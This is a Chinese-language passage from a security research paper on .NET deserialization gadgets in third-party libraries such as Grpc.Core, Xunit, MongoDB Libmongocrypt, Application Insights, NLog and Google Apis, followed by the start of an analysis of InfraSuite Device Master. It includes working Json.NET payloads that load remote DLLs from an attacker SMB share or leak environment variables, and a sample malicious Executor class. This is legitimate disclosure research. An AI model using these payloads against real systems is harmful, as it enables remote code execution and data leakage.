#### 1.10 SolarWinds 平台 – 总结

SolarWinds 平台部分的章节中，我展示了在该产品中发现的几种不同的反序列化漏洞。然后，我展示了一个广泛的黑名单，用于修补其中两个漏洞。随后，我描述了绕过此黑名单的创造性方法。这些绕过主要基于 SolarWinds 的内部类，但也使用了一个众所周知的小工具，该小工具未针对 `Json.NET` 序列化器实施。

当看到庞大的反序列化类型黑名单时，请不要放弃。我建议执行以下操作：

-   仔细研究此列表。确保它包含所有已知的小工具。如果发现缺失或列表中有错误（如拼写错误），深入研究可用于反序列化目标的小工具。
-   研究目标序列化器的功能：
    -   在目标产品代码库中寻找潜在的反序列化小工具，从直接的 RCE 小工具到允许操作产品功能的小工具。
    -   在产品使用的第三方库中寻找潜在的反序列化小工具（请参见下一章）。

### 2 反序列化小工具在第三方库中

我已经展示了在产品代码库中可能找到的反序列化小工具。虽然 `.NET Framework` 实现了多个可能用于滥用反序列化的类，但这已经是一个常见的知识点，供应商正在进行调整。

我决定快速查看几个流行的 .NET 第三方库（其中一些也适用于 .NET 5）。在其中我找到了一些有趣的反序列化小工具，在研究中可能会有用。以下表格呈现了这些小工具。

| **Library** | **Gadget(s) name** | **Effect** | **Brief description** |
| --- | --- | --- | --- |
| Grpc Core | UnmanagedLibrary | RCE | Remote (SMB) or local native DLL loading |
| Xunit Runner Utility | Xunit1Executor | RCE | Remote (SMB) or local mixed/special DLL loading |
| MongoDB Libmongocrypt | WindowsLibrary  <br>LinuxLibrary  <br>DarwinLibraryLoader | RCE | Remote (SMB) or local  <br>native DLL loading |
| Xunit Execution | PreserveWorkingFolder | Depends on  <br>application, may  <br>lead to RCE | Allows to modify a current  <br>directory for the process.  <br>Allows to abuse file  <br>operations based on  <br>relative paths. |
| Microsoft Azure  <br>Cosmos | QueryPartitionProvider | Serializes given  <br>object with  <br>Json.NET, leads to  <br>RCE when chained | Allows to serialize given  <br>object with Json.NET. May  <br>be chained for RCE or other  <br>effects. Will be described in  <br>a different chapter. |
| Microsoft  <br>Application Insights | FileDiagnosticsTelemetryModule | Environment  <br>variable leak +  <br>potential DoS | Allows to leak environment  <br>variable through SMB.  <br>If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation17. |
| NLOG | CountingSingleProcessFileAppender  <br>SingleProcessFileAppender  <br>MutextMultiProcessFileAppender | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory/file creation. |
| Google Apis | FileDataStore | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation. |

表 1：第三方库中的反序列化小工具

以下子章节详细描述了这些小工具。

#### 2.1 Grpc.Core – UnmanagedLibrary 远程 DLL 加载

目标类：`Grpc.Core.Internal.UnmanagedLibrary`

适用（序列化器）：`Json.NET`、`XamlReader`、`MessagePack` 及可能其他序列化器。

适用（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：2.46.6

效果：对于 Windows - 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语链相结合）。对于 Linux/Mac - 本地 DLL 加载。

小工具（Json.NET）：

```plain
{ 
    "$type":"Grpc.Core.Internal.UnmanagedLibrary, Grpc.Core, Version=2.0.0.0,  
Culture=neutral, PublicKeyToken=d754f35622e28bad", 
    "libraryPathAlternatives":["\\\\192.168.1.100\\poc\\native.dll"] 
}
```

代码段 35 Grpc.Core UnmanagedLibrary gadget

描述： `Grpc.Core.Internal.UnmanagedLibrary` 类实现了一个公共构造函数，该构造函数接受一个字符串数组作为输入。

```plain
public UnmanagedLibrary(string[] libraryPathAlternatives) 
{ 
    this.libraryPath =  
UnmanagedLibrary.FirstValidLibraryPath(libraryPathAlternatives); // [1] 
    UnmanagedLibrary.Logger.Debug("Attempting to load native library \"{0}\"", 
new object[] 
    { 
        this.libraryPath 
    }); 
    string arg; 
    this.handle = UnmanagedLibrary.PlatformSpecificLoadLibrary(this.libraryPath, 
out arg); // [2] 
    if (this.handle == IntPtr.Zero) 
    { 
        throw new IOException(string.Format("Error loading native library  
\"{0}\". {1}", this.libraryPath, arg)); 
    } 
}
```

代码段 36 UnmanagedLibrary constructor

在 \[1\] 处，调用 `FirstValidLibraryPath` 方法，攻击者在反序列化过程中可以控制输入。该方法返回列表中的第一个存在的文件。

在 \[2\] 处，调用 `PlatformSpecificLoadLibrary` 方法。

```plain
private static IntPtr PlatformSpecificLoadLibrary(string libraryPath, out string 
errorMsg) 
{ 
    if (PlatformApis.IsWindows) 
    { 
        errorMsg = null; 
        IntPtr intPtr = UnmanagedLibrary.Windows.LoadLibrary(libraryPath); // [1] 
        if (intPtr == IntPtr.Zero) 
        { 
            int lastWin32Error = Marshal.GetLastWin32Error(); 
            errorMsg = string.Format("LoadLibrary failed with error {0}", 
lastWin32Error); 
            if (lastWin32Error == 126) 
            { 
                errorMsg += ": The specified module could not be found."; 
            } 
        } 
        return intPtr; 
    } 
    if (PlatformApis.IsLinux) // [2] 
    { 
        if (PlatformApis.IsMono) 
        { 
            return UnmanagedLibrary.LoadLibraryPosix(new Func<string, int, 
IntPtr>(UnmanagedLibrary.Mono.dlopen), new 
Func<IntPtr>(UnmanagedLibrary.Mono.dlerror), libraryPath, out errorMsg); 
        } 
        if (PlatformApis.IsNetCore) 
        { 
            return UnmanagedLibrary.LoadLibraryPosix(new Func<string, int, 
IntPtr>(UnmanagedLibrary.CoreCLR.dlopen), new 
Func<IntPtr>(UnmanagedLibrary.CoreCLR.dlerror), libraryPath, out errorMsg); 
        } 
        return UnmanagedLibrary.LoadLibraryPosix(new Func<string, int, 
IntPtr>(UnmanagedLibrary.Linux.dlopen), new 
Func<IntPtr>(UnmanagedLibrary.Linux.dlerror), libraryPath, out errorMsg); 
    } 
    else 
    { 
        if (PlatformApis.IsMacOSX) 
        { 
            return UnmanagedLibrary.LoadLibraryPosix(new Func<string, int, 
IntPtr>(UnmanagedLibrary.MacOSX.dlopen), new 
Func<IntPtr>(UnmanagedLibrary.MacOSX.dlerror), libraryPath, out errorMsg); // [3] 
        } 
        throw new InvalidOperationException("Unsupported platform."); 
    } 
}
```

代码段 37 PlatformSpecificLoadLibrary 方法

如果平台是 Windows，则在\[1\]处调用 `UnmanagedLibrary.Windows.LoadLibrary`。

如果平台是 Linux，则使用不同的参数调用 `UnmanagedLibrary.LoadLibraryPosix`。

如果平台是 Mac OSX，则调用 `Unmanaged.LoadLibraryPosix`。

对于 Windows，调用 `kernel32!LoadLibrary` 时使用攻击者指定的路径。这意味着我们可以加载远程（UNC 路径）或本地 DLL：

```plain
private static class Windows 
{ 
    [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)] 
    internal static extern IntPtr LoadLibrary(string filename); 

    [DllImport("kernel32.dll")] 
    internal static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
}
```

代码段 38 Grpc.Core - Windows library loading

对于 Linux，使用的是 `libdl!dlopen`：

```plain
private static class Linux 
{ 
    [DllImport("libdl.so")] 
    internal static extern IntPtr dlopen(string filename, int flags); 

    [DllImport("libdl.so")] 
    internal static extern IntPtr dlerror(); 

    [DllImport("libdl.so")] 
    internal static extern IntPtr dlsym(IntPtr handle, string symbol); 
}
```

代码段 39 Grpc.Core - Linux library loading

对于 Mac OSX，将调用 `libSystem!!dlopen`。

```plain
private static class MacOSX 
{ 
    [DllImport("libSystem.dylib")] 
    internal static extern IntPtr dlopen(string filename, int flags); 

    [DllImport("libSystem.dylib")] 
    internal static extern IntPtr dlerror(); 

    [DllImport("libSystem.dylib")] 
    internal static extern IntPtr dlsym(IntPtr handle, string symbol); 
} 
```

代码段 40 Grpc.Core - Mac library loading

#### 2.1 Xunit Runner Utility – Xunit1Executor 远程 DLL 加载

目标类：`Xunit.Xunit1Executor`

适用的序列化器：`Json.Net`、`XamlReader`、`MessagePack` 和其他潜在的序列化器。

适用的.NET 版本：.NET Framework

最近测试的版本：2.5.1

效果：通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行。可以传递包含 `Xunit.Sdk.Executor` 类的 .NET Framework DLL，该类实现了一个接受单个字符串的构造函数 —— `Executor(string)`。此构造函数将在反序列化过程中被调用。

漏洞利用代码（Json.NET）：

```plain
{ 
    "$type":"Xunit.Xunit1Executor, xunit.runner.utility.net452, Version=2.4.2.0,  
Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
    "useAppDomain":true, 
     "testAssemblyFileName":"\\\\192.168.1.100\\poc\\xunit.dll" 
}
```

代码段 41 Xunit1Executor gadget

描述： `Xunit.Xunit1Executor` 类定义了一个单一的公共构造函数，需要多个参数。

```plain
public Xunit1Executor(bool useAppDomain, string testAssemblyFileName, string 
configFileName = null, bool shadowCopy = true, string shadowCopyFolder = null) 
{ 
    this.appDomain = AppDomainManagerFactory.Create(useAppDomain, 
testAssemblyFileName, configFileName, shadowCopy, shadowCopyFolder); // [1] 
    this.xunitAssemblyPath =  
Xunit1Executor.GetXunitAssemblyPath(testAssemblyFileName); // [2] 
    this.xunitAssemblyName =  
AssemblyName.GetAssemblyName(this.xunitAssemblyPath); 
    this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[] 
    { 
        testAssemblyFileName 
    }); // [3] 
    this.TestFrameworkDisplayName = string.Format(CultureInfo.InvariantCulture, 
"xUnit.net {0}", new object[] 
    { 
        AssemblyName.GetAssemblyName(this.xunitAssemblyPath).Version 
    }); 
}
```

代码段 42 Xunit1Executor constructor

在\[1\]处，调用了 `AppDomainManagerFactory.Create`，并提供了受攻击的输入。如果 `useAppDomain` 设置为 true，则将返回 `Xunit.AppDomainManager_AppDomain` 的对象。该对象有一个名为 AppDomain 的成员，用于存储 `.NET AppDomain`。

这个 `.NET AppDomain` 对象是通过以下方法创建的（为了可读性省略了几个中间调用）：

```plain
private static AppDomain CreateAppDomain(string assemblyFilename, string 
configFilename, bool shadowCopy, string shadowCopyFolder) 
{ 
    AppDomainSetup setup = new AppDomainSetup(); 
    setup.ApplicationBase = Path.GetDirectoryName(assemblyFilename); // [1] 
    setup.ApplicationName = Guid.NewGuid().ToString(); 
    if (shadowCopy) 
    { 
        setup.ShadowCopyFiles = "true"; 
        setup.ShadowCopyDirectories = setup.ApplicationBase; 
        setup.CachePath = (shadowCopyFolder ?? Path.Combine(Path.GetTempPath(), 
setup.ApplicationName)); 
    } 
    setup.ConfigurationFile = configFilename; 
    return 
AppDomain.CreateDomain(Path.GetFileNameWithoutExtension(assemblyFilename), 
AppDomain.CurrentDomain.Evidence, setup, new 
PermissionSet(PermissionState.Unrestricted), new StrongName[0]); // [2]  
}
```

代码段 43 Xunit1Executor - 通过 AppDomainManager\_AppDomain.CreateAppDomain 创建 AppDomain

在\[1\]处，从攻击者的路径（在 gadget 中为 `testAssemblyFileName` 键）中提取目录名称。

在\[2\]处，创建新的 AppDomain，并将其根路径设置为受攻击者控制的目录（在 gadget 中为远程 SMB 目录）。

回到 `Xunit1Executor` 构造函数。在\[2\]处，`xunitAssemblyPath` 成员基于 `Xunit1Executor.GetXunitAssemblyPath` 设置。这个方法：

-   从 testAssemblyFileName（这里是 \\192.168.1.100\\poc）中检索目录名称。
-   将 xunit.dll 附加到路径。

在\[3\]处，它调用 CreateObject 方法。第一个输入等于 `Xunit.Sdk.Executor`。

```plain
private object CreateObject(string typeName, params object[] args) 
{ 
    return this.appDomain.CreateObject<object>(this.xunitAssemblyName, typeName, 
args); 
}
```

代码段 44 Xunit1Executor.CreateObject 方法

它调用了 `AppDomainManager_AppDomain.CreateObject` 方法。

```plain
public TObject CreateObject<TObject>(AssemblyName assemblyName, string typeName, 
params object[] args) 
{ 
    TObject result; 
    try 
    {
        result                                                                    =
(TObject)((object)this.AppDomain.CreateInstanceAndUnwrap(assemblyName.FullName, 
typeName, false, BindingFlags.Default, null, args, null, null, null)); 
    } 
    catch (TargetInvocationException ex) 
    { 
        ex.InnerException.RethrowWithNoStackTraceLoss(); 
        result = default(TObject); 
    } 
    return result; 
}
```

代码段 45 AppDomainManager\_AppDomain.CreateObject 方法

所有内容可以总结为几点：

-   攻击者将一个类指向他的 SMB 服务器（或本地路径）。
-   创建 AppDomain 并将其根路径设置为攻击者控制的路径。
-   CreateObject 方法将尝试从 AppDomain 加载 `xunit.dll` 程序集（其中根目录由攻击者控制）。
-   它将尝试调用 `Xunit.Sdk.Executor.ctor(String)` 构造函数。

有趣的是，从 .NET Framework 4 版本开始，当您使用 `Assembly.LoadFrom` 等方法时，它会阻止远程 DLL 加载。但是，通过 AppDomain，如果您控制 AppDomain 路径，仍可以执行远程 DLL 加载。

攻击者可以创建一个包含以下类的示例 DLL：

```plain
namespace Xunit.Sdk 
{ 
    public class Executor 
    { 
        public Executor(string poc) 
        { 
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe"); 
            Process proc = new Process(); 
            proc.StartInfo = psi; 
            proc.Start(); 
        } 
    } 
}
```

代码段 46 Xunit1Executor - sample malicious class stored in attacker's DLL

#### 2.3 MongoDB Libmongocrypt – WindowsLibrary / LinuxLibrary / DarwinLibrary

目标类：`MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary / MongoDB.Libmongocrypt.LibraryLoader+LinuxLibrary / MongoDB.Libmongocrypt+DarwinLibrary`

适用性（序列化器）：`Json.Net`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：1.8.0

效果：对于 Windows —— 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语一起使用）。对于 Linux/Mac —— 本地 DLL 加载。

小工具（Json.NET）：

```plain
{ 
    "$type":"MongoDb.Libmongocrypt.LibraryLoader+WindowsLibrary,  
MongoDB.Libmongocrypt, Version=1.8.0.0, Culture=neutral, PublicKeyToken=null", 
    "path":"\\\\192.168.1.100\\native.dll" 
}
```

代码段 47 MongoDB Libmongocrypt WindowsLibrary gadget

描述：

这个小工具与 Grpc.Core 中存在的 `UnmanagedLibrary` 很相似。`MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary` 类实现了一个带有单参数的公共构造函数，接受攻击者提供的路径。

```plain
private class WindowsLibrary : LibraryLoader.ISharedLibraryLoader 
{ 
    public WindowsLibrary(string path) 
    { 
        this._handle = LibraryLoader.WindowsLibrary.LoadLibrary(path); // [1] 
        if (this._handle == IntPtr.Zero) 
        { 
            throw new LibraryLoadingException(path + ", Windows Error: " +  
Marshal.GetLastWin32Error().ToString()); 
        } 
    } 
    [DllImport("kernel32", CharSet = CharSet.Ansi, SetLastError = true)] 
    public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] 
string lpFileName); 

 ... 
}
```

代码段 48 WindowsLibrary constructor

在 \[1\] 处，它调用了 `kernel32!LoadLibrary` 并使用由攻击者控制的路径。根据这一点，攻击者可以加载远程本地 DLL 或任何本地 DLL。

`MongoDB.Libmongocrypt.LibraryLoader` 还实现了另外两个子类，它们也可以通过反序列化来滥用：

-   `LinuxLibrary`，调用 `libdl!dlopen`。
-   `DarwinLibraryLoader`，调用 `libdl!dlopen`。

#### 2.4 Xunit Execution – PreserveWorkingFolder

目标类：`Xunit.Sdk.TestFrameworkDiscoverer+PreserveWorkingFolder`

适用性（序列化器）：`Json.Net`、`XamlReader`、`MessagePack` 及其他潜在序列化器。

适用性（.NET）：.NET Framework（.NET>=5 未经验证）

最新测试版本：2.5.1

效果：更改进程的当前目录，导致 `winbase!SetCurrentDirectory` 调用。攻击者可以利用它来滥用基于相对路径的文件操作。

小工具（Json.NET）：

```plain
{ 
    "$type":"Xunit.Sdk.TestFrameworkDiscoverer+PreserveWorkingFolder,  
xunit.execution.desktop, Version=2.5.0.0, Culture=neutral,  
PublicKeyToken=8d05b1bb7a6fdb6c", 
    "assemblyInfo": 
    { 
        "$type":"Xunit.Xunit1AssemblyInfo, xunit.runner.utility.net452,  
Version=2.5.0.0, Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
        "assemblyFileName":"\\\\192.168.1.100\\poc\\poc" 
    } 
}
```

代码段 49 PreserverWorkingFolder gadget

描述：

在深入了解小工具的详细信息之前，让我们关注一下`Directory.SetCurrentDirectory` 方法。这个 `.NET Framework` 方法导致了 Windows 的 `winbase!SetCurrentDirectory18` 调用。简而言之，它允许我们为进程设置当前目录。参考以下代码片段：

```plain
File.WriteAllText("test.txt", "test"); // Writes to  
C:\inetpub\wwwroot\applicationdir\test.txt 
Directory.SetCurrentDirectory("C:\\Users\\Public\\"); // Change dir to  
C:\Users\Public 
File.WriteAllText("test.txt", "test"); // Writes to C:\Users\Public\test.txt 
Directory.SetCurrentDirectory(origDir); 
Process.Start("tracert.exe", "8.8.8.8"); // run C:\Windows\System32\tracert.exe 

Directory.SetCurrentDirectory("\\\\192.168.1.100\\poc\\"); // Change dir to  
\\192.168.1.100\poc 
Process.Start("tracert.exe", "8.8.8.8"); // run \\192.168.1.100\poc\tracert.exe,  
may be blocked by various policies
```

代码段 50 Testing Directory.SetCurrentDirectory 方法

可以看到，当攻击者可以更改应用程序的目录时，他可以在执行基于相对路径的文件操作时将应用程序指向不同的位置。在更大的应用程序中，可以找到将其转化为远程代码执行（RCE）、信息泄露等的创造性方法。

`PreserveWorkingFolder` 小工具允许我们通过反序列化实现 `Directory.SetCurrentDirectory` 的调用。让我们验证它的唯一构造函数。

```plain
public PreserveWorkingFolder(IAssemblyInfo assemblyInfo) 
{ 
    this.originalWorkingFolder = Directory.GetCurrentDirectory(); 
    if (!string.IsNullOrEmpty(assemblyInfo.AssemblyPath)) 
    { 

Directory.SetCurrentDirectory(Path.GetDirectoryName(assemblyInfo.AssemblyPath)); 
// [1] 
    } 
}
```

代码段 51 PreserveWorkingFolder constructor

在 \[1\] 处，我们进入了 `Directory.SetCurrentDirectory`，其中输入等于 `assemblyInfo.AssemblyPath`。`assemblyInfo` 对象作为构造函数的参数提供，并且它必须实现 `Xunit.Abstractions.IAssemblyInfo` 接口。在这里，我们可以使用 `Xunit.Xunit1AssemblyInfo` 类：

```plain
public class Xunit1AssemblyInfo : IAssemblyInfo 
{ 
    public Xunit1AssemblyInfo(string assemblyFileName) 
    { 
        this.AssemblyFileName = assemblyFileName; // [1] 
    } 

    string IAssemblyInfo.AssemblyPath // [2] 
    { 
        get 
        { 
            return this.AssemblyFileName; 
        } 
    } 
    ... 
}
```

代码段 52 Xunit1AssemblyInfo 类

在 \[1\] 处，可以通过构造函数设置 `AssemblyFileName` 成员。

在 \[2\] 处，定义了 AssemblyPath 属性。它返回 AssemblyFileName 成员。

根据这一点，攻击者能够完全控制传递给 `Directory.SetCurrentDirectory` 方法的路径。当通过 gadget 传递 `C:\Users\Public\test` 路径时，当前路径将被设置为 `C:\Users\Public`（攻击者的路径被传递给 `Path.GetDirectoryName` 方法）。

#### 2.6 Microsoft Azure Cosmos – QueryPartitionProvider

此 gadget 在章节“不安全的序列化 – `Azure.Core QueryPartitionProvider` 序列化触发反序列化”的描述中，利用了本文后续部分描述的技术。

#### 2.7 Microsoft Application Insights - FileDiagnosticsTelemetryModule

目标类： `Microsoft.ApplicationInsights.Extensibility.Implementation.Tracing.FileDiagnosticsTelemetryModule`

适用的序列化器：`Json.Net`、`XamlReader`、`JavaScriptSerializer`、`MessagePack` 和可能的其他序列化器。

适用的 .NET 版本：.NET Framework（未验证 .NET>=5）

最新测试版本：2.21.0

效果：可以实现两种效果：

-   如果应用程序能够与攻击者的服务器建立 SMB 连接或攻击者能够枚举目标上的本地目录，则可以泄漏环境变量。
-   如果目标应用程序以 `SYSTEM/local admin` 特权运行，则可以通过创建目录实现拒绝服务。

小工具（Json.NET）：

```plain
{ 
"$type":"Microsoft.ApplicationInsights.Extensibility.Implementation.Tracing.FileD 
iagnosticsTelemetryModule, Microsoft.ApplicationInsights, Version=2.21.0.429,  
Culture=neutral, PublicKeyToken=31bf3856ad364e35", 
    "LogFilePath":"\\\\192.168.1.100\\%USERNAME%", 
    "LogFileName":"C:\\\\Users\\\\Public\\\\test\\\\test.txt" 
}
```

代码段 53 FileDiagnosticsTelemetryModule gadget

描述： `FileDiagnosticsTelemetryModule` 实现了一个不重要的公共无参数构造函数，我们的分析不应关注此构造函数。我们应该专注于 LogFileName 和 LogFilePath 属性的设置器：

```plain
public string LogFilePath 
{ 
    get 
    { 
        return this.logFilePath; 
    } 
    set 
    { 
        string filePath = Environment.ExpandEnvironmentVariables(value); // [1] 
        if (this.SetAndValidateLogsFolder(filePath, this.logFileName)) // [2] 
        { 
            this.logFilePath = filePath; 
        } 
    } 
} 

public string LogFileName 
{ 
    get 
    { 
        return this.logFileName; 
    } 
    set 
    { 
        if (this.SetAndValidateLogsFolder(this.logFilePath, value)) // [3] 
        { 
            this.logFileName = value; 
        } 
    } 
}
```

代码段 54 LogFilePath and LogFileName setters

在 \[1\] 处， `Environment.ExpandEnvironmentVariables`用来给 LogFilePath 提供路径。因此，可以使用此成员泄漏环境变量。

在 \[2\] 处，调用了 `SetAndValidateLogsFolder`。

在 \[3\] 处，LogFileName 设置器中也调用了 `SetAndValidateLogsFolder`。

```plain
private bool SetAndValidateLogsFolder(string filePath, string fileName) 
{ 
    bool result = false; 
    try 
    { 
        if (!string.IsNullOrWhiteSpace(filePath) &&  
!string.IsNullOrWhiteSpace(fileName)) 
        {
            DirectoryInfo directory = new DirectoryInfo(filePath); // [1] 
            FileHelper.TestDirectoryPermissions(directory); // [2] 
            string fileName2 = Path.Combine(filePath, fileName); 
            CoreEventSource.Log.LogsFileName(fileName2, "Incorrect"); 
            this.listener.LogFileName = fileName2; 
            result = true; 
        } 
    } 
    ...
```

代码段 55 SetAndValidateLogsFolder 方法

在 \[1\] 处，使用受攻击者控制的路径创建了 `DirectoryInfo` 对象。

在 \[2\] 处，调用了 `FileHelper.TestDirectoryPermissions`。

```plain
public static void TestDirectoryPermissions(DirectoryInfo directory) 
{ 
    string randomFileName = Path.GetRandomFileName(); 
    string path = Path.Combine(directory.FullName, randomFileName); 
    if (!Directory.Exists(directory.FullName)) // [1] 
    { 
        Directory.CreateDirectory(directory.FullName); // [2] 
    } 
    using (FileStream fileStream = new FileStream(path, FileMode.CreateNew, 
FileAccess.ReadWrite, FileShare.None, 4096, FileOptions.DeleteOnClose)) 
    { 
        fileStream.Write(new byte[1], 0, 1); 
    } 
}
```

代码段 56 FileHelper.TestDirectoryPermissions 方法

在 \[1\] 处，代码检查目录是否存在。

如果不存在，则在 \[2\] 处创建它。

通过这种方式，攻击者可以使用此工具创建新目录或泄露环境变量。当传递以下路径时：`\\attacker\%PATHEXT%`，变量可以从 SMB 服务器日志中提取（请参阅以下截图）。



图 4 通过 SMB 连接泄露环境变量

#### 2.7 NLOG – CountingSingleProcessFileAppender / SingleProcessFileAppender / MutexMultiProcessFileAppender

目标类：`NLog.Internal.FileAppenders.CountingSingleProcessFileAppender` `NLog.Internal.FileAppenders.SingleProcessFileAppender` `NLog.Internal.FileAppenders.MutexMultiProcessFileAppender`

适用性 (序列化器): `Json.NET`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性 (.NET): .NET Framework (.NET>=5 未经验证)

最新测试版本：5.2.4

效果：目录创建和空文件创建。如果目标应用程序以 SYSTEM 权限运行，可以通过创建目录/文件来实现拒绝服务。

小工具 (Json.NET):

```plain
{ 
    "$type":"NLog.Internal.FileAppenders.SingleProcessFileAppender, NLog,  
Version=5.0.0.0, Culture=neutral, PublicKeyToken=5120e14c03d0593c", 
    "fileName":"C:\\Users\\Public\\poc\\poc.txt", 
    "parameters": 
    { 
        "$type":"NLog.Targets.FileTarget, NLog, Version=5.0.0.0, Culture=neutral,  
PublicKeyToken=5120e14c03d0593c" 
    } 
} 
```

代码段 57 SingleProcessFileAppender

描述：

这三个小工具都基于它们的构造函数调用 `NLog.Internal.FileAppenders.BaseFileAppender.CreateFileStream`。例如：

```plain
internal class SingleProcessFileAppender : BaseFileAppender 
{ 
    public SingleProcessFileAppender(string fileName, ICreateFileParameters 
parameters) : base(fileName, parameters) 
    { 
        this._file = base.CreateFileStream(false, 0); // [1] 
        this._enableFileDeleteSimpleMonitor =  
parameters.EnableFileDeleteSimpleMonitor; 
        this._lastSimpleMonitorCheckTickCount = Environment.TickCount; 
    } 
 ... 
```

代码段 58 SingleProcessFileAppender constructor

在 \[1\] 处，调用了 `BaseFileAppender.CreateFileStream`。

```plain
protected FileStream CreateFileStream(bool allowFileSharedWriting, int 
overrideBufferSize = 0) 
{ 
    int num = this.CreateFileParameters.FileOpenRetryDelay; 
    InternalLogger.Trace<ICreateFileParameters, string, bool>("{0}: Opening {1}  
with allowFileSharedWriting={2}", this.CreateFileParameters, this.FileName, 
allowFileSharedWriting); 
    for (int i = 0; i <= this.CreateFileParameters.FileOpenRetryCount; i++) 
    { 
        try 
        { 
            try 
            { 
                return this.TryCreateFileStream(allowFileSharedWriting, 
overrideBufferSize); // [1] 
            } 
            catch (DirectoryNotFoundException) 
            { 
                if (!this.CreateFileParameters.CreateDirs) 
                { 
                    throw; 
                } 
                InternalLogger.Debug<ICreateFileParameters, string>("{0}:  
DirectoryNotFoundException - Attempting to create directory for FileName: {1}", 
this.CreateFileParameters, this.FileName); 
                string directoryName = Path.GetDirectoryName(this.FileName); 
                try 
                { 
                    Directory.CreateDirectory(directoryName); // [2] 
                } 
                catch (DirectoryNotFoundException) 
                { 
                    throw new NLogRuntimeException("Could not create directory " + directoryName); 
                } 
                return this.TryCreateFileStream(allowFileSharedWriting, 
overrideBufferSize); // [3] 
            } 
        } 
        ... 
    ... 
}
```

在 \[2\] 处，可以调用 `Directory.CreateDirectory`。

在 \[1\] 和 \[3\] 处，可以调用 `TryCreateFileStream`。它创建一个具有给定名称的空文件。

例如，给定的 gadget 将检查 `C:\Users\Public\poc` 目录是否存在。如果不存在，将创建此目录。然后，它将检查目录中是否存在 poc.txt 文件。如果不存在，将创建该文件。

#### 2.8 Google Apis - FileDataStore

目标类：`Google.Apis.Util.Store.FileDataStore`

适用性 (序列化器): `Json.Net`, `XamlReader`, `MessagePack` 以及可能的其他序列化器。

适用性 (.NET): .NET Framework

最新测试版本：1.62.1

效果：目录创建。如果目标应用程序以 SYSTEM 权限运行，则可以通过目录创建实现拒绝服务。

小工具 (Json.NET):

```plain
{ 
    "$type":"Google.Apis.Util.Store.FileDataStore, Google.Apis, Version=1.62.0.0,  
Culture=neutral, PublicKeyToken=4b01fa6e34db77ab", 
    "folder":"C:\\Windows\\System32\\cng.sys", 
    "fullPath":"true" 
}
```

代码段 59 FileDataStore gadget

描述：`Google.Apis.Util.Store.FileDataStore` 实现了一个公共构造函数，直接导致目录的创建。

```plain
public FileDataStore(string folder, bool fullPath = false) 
{ 
    this.folderPath = (fullPath ? folder : Path.Combine(this.GetHomeDirectory(), 
folder)); 
    if (!Directory.Exists(this.folderPath)) 
    { 
        Directory.CreateDirectory(this.folderPath); 
    } 
}
```

代码段 60 FileDataStore constructor

### 3 Delta Electronics InfraSuite Device Master

根据供应商的说明，"InfraSuite Device Master" 提供了一套丰富的功能，以简化和自动化关键设备的监控。该产品使用户能够监视所有设备的状态、查询事件日志或历史数据，并协助用户采取适当的操作。它属于常见的工业控制系统（ICS）/监控和数据采集系统（SCADA）相关产品，被多家公司广泛采用。

在接下来的章节中，我将描述该产品中反序列化漏洞的历史，并展示一个有趣的身份验证绕过漏洞，攻击者通过反序列化能够控制多个变量。

最后，我将展示在一系列初始修补之后尝试实现无身份验证的远程代码执行。

#### 3.1 InfraSuite Device Master – 初始漏洞

我首次注意到该产品是当研究人员 kimiya 和另一位匿名研究员向 ZDI 计划提交了初始漏洞报告的时候。这款产品有多个安全问题，其中一个尤为引人注目。

该产品的两个不同服务分别在端口 3000/tcp 和 3100/tcp 上监听。这些通道用于不同产品组件之间的通信。主要问题有两个：

-   这些通道没有实施身份验证。
-   整个通信是基于 `BinaryFormatter` 进行的，其中没有为类型验证实施 Binder。

因此，未经身份验证的攻击者可以交付任何 `ysoserial.net BinaryFormatter gadget`，以达到以 SYSTEM 权限执行远程代码的目的。这些反序列化问题被称为 CVE-2022-41778 和 CVE-2022-38142。

当这些问题得到修补并经过了一段时间后，我决定查看已实施的补丁。

#### 3.2 InfraSuite Device Master – 实施的缓解措施和 MessagePack 序列化程序

一般来说，实施了三种主要的缓解措施：

-   实施了身份验证。
-   在 TCP 上进行的原始通信被基于 HTTP/2 的 gRPC 通信所取代。这种通信由 MagicOnion 框架处理。
-   `BinaryFormatter` 反序列化被 `MessagePack` 反序列化所替代。

这是很大的变化，可以看出整个架构已经被修改了。

以下方案展示了针对端口 3000/tcp 和 3100/tcp 监听服务实施的简化通信：

